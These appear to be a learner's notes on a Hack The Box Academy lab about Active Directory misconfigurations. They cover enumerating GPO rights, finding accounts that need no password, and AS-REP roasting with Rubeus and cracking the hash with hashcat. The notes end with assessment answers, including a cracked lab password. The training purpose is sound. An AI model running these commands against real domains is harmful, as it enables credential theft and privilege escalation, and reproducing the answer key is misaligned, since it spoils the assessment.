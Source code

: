 # Misconfig

### Group Policy Object (GPO) Abuse

If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain.

GPO misconfigurations can be abused to perform the following attacks:

* Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
* Adding a local admin user to one or more hosts
* Creating an immediate scheduled task to perform any number of actions

**Enumerating GPO Names with PowerView**

```powershell-session
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

**Enumerating GPO Names with a Built-In Cmdlet**

```powershell-session
PS C:\htb> Get-GPO -All | Select DisplayName

DisplayName
-----------
Certificate Services
Default Domain Policy
Disable NetBIOS
Disable Guest Account
AutoLogon
Default Domain Controllers Policy
Disconnect Idle RDP
Disallow LM Hash
Deny CMD Access
Block Removable Media
GuardAutoLogon
Service Accounts Password Policy
Logon Banner
Disable Forced Restarts
Deny Control Panel Access
```

**Enumerating Domain User GPO Rights**

```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl,
                        WriteOwner
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983095
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-513
AceType               : AccessAllowed
AceFlags              : ObjectInherit, ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None
AuditFlags            : None
```

Here we can see that the Domain Users group has various permissions over a GPO

**Converting GPO GUID to Name**

```powershell-session
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532

DisplayName      : Disconnect Idle RDP
DomainName       : INLANEFREIGHT.LOCAL
Owner            : INLANEFREIGHT\Domain Admins
Id               : 7ca9c789-14ce-46e3-a722-83f4097af532
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 10/28/2021 3:34:07 PM
ModificationTime : 4/5/2022 6:54:25 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Checking in BloodHound, we can see that the `Domain Users` group has several rights over the `Disconnect Idle RDP` GPO, which could be leveraged for full control of the object.

![image](https://academy.hackthebox.com/storage/modules/143/gporights.png)

If we select the GPO in BloodHound and scroll down to `Affected Objects` on the `Node Info` tab, we can see that this GPO is applied to one OU, which contains four computer objects.

![image](https://academy.hackthebox.com/storage/modules/143/gpoaffected.png)

### PASSWD\_NOTREQD Field

**Checking for PASSWD\_NOTREQD Setting using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                         useraccountcontrol
--------------                                                         ------------------
guest                ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ehamilton                            PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                       ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                PASSWD_NOTREQD, NORMAL_ACCOUNT
```

### AS-REP Roasting

**Enumerating for DONT\_REQ\_PREAUTH Value using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

**Cracking the Hash Offline with Hashcat**

```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

## Assessment

**Find another user with the passwd\_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".**

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption><p>ygroce</p></figcaption></figure>

**Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Get the asrep ticket</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (35) (2).png" alt=""><figcaption><p>ygroce:Pass@word</p></figcaption></figure>





